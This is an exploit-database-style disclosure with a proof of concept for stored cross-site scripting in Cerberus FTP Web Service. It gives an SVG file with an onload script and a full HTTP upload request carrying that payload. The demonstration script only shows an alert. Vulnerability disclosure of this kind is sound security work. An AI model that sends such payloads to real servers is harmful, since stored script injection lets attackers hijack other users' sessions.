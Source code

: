 XSS
---

    # Exploit Title: Cerberus FTP web Service 11 - 'svg' Stored Cross-Site Scripting (XSS)
    # Date: 08/06/2021
    # Exploit Author: Mohammad Hossein Kaviyany
    # Vendor Homepage: www.cerberusftp.com
    # Software Link: https://www.cerberusftp.com/download/
    # Version:11.0 releases prior to 11.0.4, 10.0 releases prior to 10.0.19, 9.0 and earlier
    # Tested on: windows server 2016
    ------------
    About Cerberus FTP Server (From Vendor Site) :

    Cerberus FTP Server is a secure Windows file server with FTP, FTPS, SFTP, HTTPS,
    FIPS 140-2 validated, and Active Directory and LDAP authentication.
    --------------------------------------------------------
    Exploit Detailes :

    This stored XSS bug happens when a user uploads an svg file with the following content :
    <svg ns="http://www.w3.org/2000/svg" onload="alert(123)"/>

    Exploit POC :

    # Vulnerable Path : /file/upload
    # Parameter: files (POST)
    # Vector: <svg ns="http://www.w3.org/2000/svg" onload="alert(123)"/>

    #Payload:

    POST /file/upload HTTP/1.1
    Host: target.com
    Connection: close
    Content-Length: 484
    sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
    Accept: application/json, text/javascript, */*; q=0.01
    X-Requested-With: XMLHttpRequest
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAAM6ZtOAsyklo6JG
    Origin: https://target.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://target.com/file/d/home/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: cftpSID=U02_5UCTumW3vFtt5PrlWwoD4k9ccxW0A87oCM8-jsM

    ------WebKitFormBoundaryAAM6ZtOAsyklo6JG
    Content-Disposition: form-data; name="cd"

    /home
    ------WebKitFormBoundaryAAM6ZtOAsyklo6JG
    Content-Disposition: form-data; name="csrftoken"

    z-Zlffq0sPaJErxOsMgL4ITcW1x3AuZo3XlZRP5GcKg
    ------WebKitFormBoundaryAAM6ZtOAsyklo6JG
    Content-Disposition: form-data; name="files[]"; filename="file.svg"
    Content-Type: image/svg+xml

    <svg ns="http://www.w3.org/2000/svg" onload="alert(123)"/>

    ------WebKitFormBoundaryAAM6ZtOAsyklo6JG--

    --------------------------